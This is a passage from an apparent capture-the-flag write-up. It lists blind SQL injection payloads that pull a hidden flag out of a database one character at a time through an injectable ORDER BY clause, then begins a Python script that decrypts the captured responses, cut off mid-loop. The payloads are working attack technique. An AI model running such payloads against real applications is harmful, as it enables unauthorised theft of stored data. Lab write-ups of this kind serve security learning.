```

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'm' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'l' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'c' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'b' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'a' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = '`' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'g' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'f' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'e' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'd' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = '[' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'Z' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'Y' THEN stock ELSE price END)

(CASE WHEN (SELECT SUBSTR(flag,5,1)  FROM secret_flag LIMIT 0,1) = 'X' THEN stock ELSE price END)
```

But how to know, whether the query hits or misses in this _blind SQLi_? All the responses had the same length!

By binary file comparision (we know, that the first character of flag is 'f', as the flag has the flag{hash} format) it turned out, that the only thing that is different, is the ordering of results.
Yet again, being lazy, we made some modifications to the script:

```
from os import listdir

D = listdir('C:/Users/your_favourite_user/Desktop/exported')

# Decrypt routine, without changes
def decrypt(z):
    r = ""
    for I in range(len(z) / 64 + 1):
        a = z[I*64:(I+1)*64]
	
        b = "e4146d4252bafb3b38212df186497a7479d5e95af4796e7573a65e6849952032"
        c = "4141414141414141414141414141414141414141414141414141414141414141"
        for i in range(len(a) / 2):
            aa = ord(a[i*2:i*2 + 2].decode('hex'))
            bb = ord(b[i*2:i*2 + 2].decode('hex'))
            cc = ord(c[i*2:i*2 + 2].decode('hex'))
    	
            r = r + chr(aa ^ bb ^ cc)
    return r

# A flag placeholder (string is immutable :/ )
flag = [' ' for _ in range(40)]

# For all files
for d in D:
    f = open('C:/Users/your_favourite_user/Desktop/exported/' + d, 'r')
```